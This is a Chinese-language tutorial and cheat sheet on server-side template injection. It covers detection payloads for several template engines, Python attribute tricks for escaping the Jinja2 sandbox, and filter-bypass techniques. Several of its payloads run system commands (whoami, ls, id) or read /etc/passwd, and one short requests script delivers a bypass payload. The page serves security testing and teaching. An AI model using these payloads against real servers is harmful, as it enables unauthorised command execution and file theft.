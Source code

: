 ```yaml
---

title: 模板注入

date: 2023-12-26 02:01:50

tags:

---
```


# 模版注入

##  简介

模板引擎用于使用动态数据呈现内容。此上下文数据通常由用户控制并由模板进行格式化，以生成网页、电子邮件等。模板引擎通过使用代码构造（如条件语句、循环等）处理上下文数据，允许在模板中使用强大的语言表达式，以呈现动态内容。如果攻击者能够控制要呈现的模板，则他们将能够注入可暴露上下文数据，甚至在服务器上运行任意命令的表达式。

<!--more-->

## 测试方法

- 确定使用的引擎
- 查看引擎相关的文档，确定其安全机制以及自带的函数和变量
- 需找攻击面，尝试攻击

## 测试用例

- 简单的数学表达式，`{{ 7+7 }} => 14`

- 字符串表达式 `{{ "ajin" }} => ajin`

- - Ruby

    `<%= 7 * 7 %>``<%= File.open('/etc/passwd').read %>`

- - Java

    `${7*7}`

- - Twig

    `{{7*7}}`

- - Smarty

    `{php}echo `id`;{/php}`

- - AngularJS

    `$eval('1+1')`

- - Tornado

    引用模块 `{% import module %}`=> `{% import os %}{{ os.popen("whoami").read() }}`

- - Flask/Jinja2

    `{{ config }}``{{ config.items() }}``{{get_flashed_messages.__globals__['current_app'].config}}``{{''.__class__.__mro__[-1].__subclasses__()}}``{{ url_for.__globals__['__builtins__'].__import__('os').system('ls') }}``{{ request.__init__.__globals__['__builtins__'].open('/etc/passwd').read() }}`

- - Django

    `{{ request }}``{% debug %}``{% load module %}``{% include "x.html" %}``{% extends "x.html" %}`

## 目标

- 创建对象
- 文件读写
- 远程文件包含
- 信息泄漏
- 提权

## 相关属性

### `__class__`

python中的新式类（即显示继承object对象的类）都有一个属性 `__class__` 用于获取当前实例对应的类，例如 `"".__class__` 就可以获取到字符串实例对应的类

###  `__mro__`

python中类对象的 `__mro__` 属性会返回一个tuple对象，其中包含了当前类对象所有继承的基类，tuple中元素的顺序是MRO（Method Resolution Order） 寻找的顺序。

### `__globals__`

保存了函数所有的所有全局变量，在利用中，可以使用 `__init__` 获取对象的函数，并通过 `__globals__` 获取 `file` `os` 等模块以进行下一步的利用

### `__subclasses__()`

python的新式类都保留了它所有的子类的引用，`__subclasses__()` 这个方法返回了类的所有存活的子类的引用（是类对象引用，不是实例）。

因为python中的类都是继承object的，所以只要调用object类对象的 `__subclasses__()` 方法就可以获取想要的类的对象。

## 绕过技巧

### 字符串拼接

```
request['__cl'+'ass__'].__base__.__base__.__base__['__subcla'+'sses__']()[60]
```

### 使用参数绕过

```
params = {
    'clas': '__class__',
    'mr': '__mro__',
    'subc': '__subclasses__'
}
data = {
    "data": "{{''[request.args.clas][request.args.mr][1][request.args.subc]()}}"
}
r = requests.post(url, params=params, data=data)
print(r.text)
```